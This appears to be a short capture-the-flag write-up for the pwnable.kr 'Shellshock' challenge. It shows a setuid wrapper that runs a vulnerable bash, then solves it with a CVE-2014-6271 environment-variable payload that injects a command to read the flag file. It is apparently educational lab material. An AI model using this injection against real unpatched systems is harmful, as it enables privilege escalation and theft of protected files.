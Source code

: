 # Pwnable.kr Shellshock

Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)

# Files

```sh
shellshock@ubuntu:~$ ls
bash  flag  shellshock	shellshock.c
```
# shellshock.c
```sh
shellshock@ubuntu:~$ cat shellshock.c
```
```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```
# Environment
```sh
shellshock@ubuntu:~$ env
XDG_SESSION_ID=17578
TERM=xterm-256color
SHELL=/bin/bash
SSH_CLIENT=205.204.186.15 3763 22
SSH_TTY=/dev/pts/29
USER=shellshock
MAIL=/var/mail/shellshock
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
PWD=/home/shellshock
LANG=en_US.UTF-8
SHLVL=1
HOME=/home/shellshock
LANGUAGE=en_US:
LOGNAME=shellshock
SSH_CONNECTION=205.204.186.15 3763 192.168.1.186 22
XDG_RUNTIME_DIR=/run/user/1019
_=/usr/bin/env
```

# Note the space is required! 

```sh
shellshock@ubuntu:~$ env x="() { :; }; /bin/cat /home/shellshock/flag" ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```